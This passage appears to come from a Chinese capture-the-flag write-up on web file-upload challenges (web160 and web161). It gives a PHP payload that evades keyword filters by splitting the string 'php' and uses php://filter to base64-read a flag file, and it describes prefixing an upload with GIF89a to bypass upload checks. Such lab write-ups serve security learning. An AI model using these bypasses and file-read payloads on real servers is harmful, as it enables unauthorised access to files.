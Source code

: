 ```
<?=include"ph"."p://filter/convert.base64-encode/resource=../flag.p"."hp"?>
```



#### web161

尝试上传配置文件失败，在前面加`GIF89a`上传成功

![image-20250311113412902](assets/image-20250311113412902.png)

上传成功后用伪协议读文件即可

![image-20250311115014498](assets/image-20250311115014498.png)
